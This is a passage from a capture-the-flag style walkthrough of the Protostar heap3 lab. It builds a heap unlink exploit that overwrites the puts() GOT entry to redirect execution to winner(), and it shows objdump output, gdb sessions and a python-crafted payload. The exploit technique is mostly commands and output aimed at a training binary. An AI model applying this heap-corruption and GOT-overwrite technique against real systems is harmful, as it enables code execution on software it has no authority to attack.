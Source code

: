 As expected, we see that it segfaults at `0x4242424e` as it tries to write to
that address.

Now that we have a write-what-where primitive, how do we turn it into control
of program flow? Using the lessons from the format string stages, we can
overwrite the GOT table entry for `puts()` to point to `winner()`.

We look up the address of `puts()`'s GOT entry which is `0x804b128`.

```shell
user@protostar:~$ objdump -TR /opt/protostar/bin/heap3

/opt/protostar/bin/heap3:     file format elf32-i386

... <snip> ...

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
0804b0e4 R_386_GLOB_DAT    __gmon_start__
0804b140 R_386_COPY        stderr
0804b0f4 R_386_JUMP_SLOT   __errno_location
0804b0f8 R_386_JUMP_SLOT   mmap
0804b0fc R_386_JUMP_SLOT   sysconf
0804b100 R_386_JUMP_SLOT   __gmon_start__
0804b104 R_386_JUMP_SLOT   mremap
0804b108 R_386_JUMP_SLOT   memset
0804b10c R_386_JUMP_SLOT   __libc_start_main
0804b110 R_386_JUMP_SLOT   sbrk
0804b114 R_386_JUMP_SLOT   memcpy
0804b118 R_386_JUMP_SLOT   strcpy
0804b11c R_386_JUMP_SLOT   printf
0804b120 R_386_JUMP_SLOT   fprintf
0804b124 R_386_JUMP_SLOT   time
0804b128 R_386_JUMP_SLOT   puts
0804b12c R_386_JUMP_SLOT   munmap
```

This means that we want to write `\x1c\xb1\x04\x08` to `fd`. Remember, we have
to subtract 12 bytes from the memory address that we want to write to.

Next, we get the memory address of the `winner()` function which is
`0x8048864`.

```shell
(gdb) print &winner
$1 = (void (*)(void)) 0x8048864 <winner>
```

We attempt to write that address directly to `the GOT entry of puts()`.

```shell
user@protostar:~$ gdb --args /opt/protostar/bin/heap3 `python -c "print 'AAAA'"` `python -c "print 'A' * 32 + '\xfc\xff\xff\xff' + '\xfc\xff\xff\xff' + 'A' * 4 + '\x1c\xb1\x04\x08\x64\x88\x04\x08'"` DDD

(gdb) run
Starting program: /opt/protostar/bin/heap3 AAAA AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA DDD

Program received signal SIGSEGV, Segmentation fault.
0x08049906 in free (mem=0x804c058) at common/malloc.c:3638
3638    common/malloc.c: No such file or directory.
        in common/malloc.c

(gdb) p $_siginfo._sifields._sigfault.si_addr
$5 = (void *) 0x804886c
```

